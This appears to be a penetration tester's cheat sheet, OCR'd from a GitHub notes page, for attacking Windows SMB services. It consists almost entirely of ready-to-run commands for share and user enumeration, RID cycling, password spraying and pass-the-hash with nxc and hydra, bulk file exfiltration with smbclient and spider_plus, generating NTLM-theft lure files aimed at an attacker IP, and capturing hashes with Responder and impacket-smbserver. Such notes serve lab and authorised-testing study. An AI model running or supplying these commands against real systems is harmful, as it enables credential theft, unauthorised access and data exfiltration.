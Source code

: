 ```
smbclient -U 'guest' -L \\$IP\
```

* With credentials or guest or null access check for users

```
nxc smb $IP -u user -p passwd --users
```

* rid cycling via rid-brute

```
nxc smb $IP -u user -p passwd --rid-brute
```

*  Password Spraying

```
nxc smb $IP -u users.txt -p pass.txt --continue-on-success
```

```
nxc smb $IP -u users.txt -p pass.txt --continue-on-success
```

```
nxc smb $IP -u users.txt -H hash.txt --continue-on-success
```

* Make sure to lowercase the uppercase usernames of users and service accounts while password spraying

```
hydra -L users.txt -P pass.txt -V -f smb
```

* Data exfil via smbclient of nxc spider

```
mask ""
recurse on
prompt off
mget *
```

```
nxc smb $IP -u user -p password -M spider_plus -o READ_ONLY=False
```

*  NTLM-Theft

```
python3 ntlm_theft.py -g all -s tun0-IP -f test
```

* Capture NTLM hash via Responder and impacket-smbserver

```
sudo responder -I tun0
```

```
impacket-smbserver -smb2support share .
```
